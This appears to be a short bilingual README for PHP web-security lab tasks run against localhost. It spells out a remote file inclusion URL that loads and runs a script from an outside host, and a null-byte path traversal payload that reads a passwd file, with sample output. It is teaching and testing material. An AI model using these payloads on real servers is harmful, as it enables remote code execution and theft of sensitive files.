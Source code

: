 These are test tasks on web security. Description and instructions for reproducing the attack follows.
All the tasks are tested and worked on OpenServer 4.8.7, though the configuration of the server doesn't matter.
The server name is assumed to be 'localhost'.

Task 1
Участвующие файлы:

task1.php, располагается в корневой папке атакуемого сервера.

На сервере должны быть включены register_globals, allow_url_fopen и allow_url_include.
 
Для взлома данная страница открывается через url

http://localhost/task1.php?file_to_open=http://biomechanics.ru/listof.php

В данных настройках это приведет к подключению удаленного файла listof.php в скрипт task1.php и его исполнению.

Для атаки нужно знать имя переменной file_to_open



Task 2
Участвующие файлы:

task2.php, располагается в корневой папке атакуемого сервера.

passwd, располагается в папке на один уровень выше (предположительно недоступной для просмотра веб-пользователям).


Для взлома используется вставка нулевого байта в нотации C++ в плохо экранированную строку, которая используется в параметре функции require_once. Для этого страница открывается через url

http://localhost/task2.php?file=../passwd%00
 
При этом файл passwd выдается на страницу. В результате получается следующий вывод:

"admin	pass task2 worked"
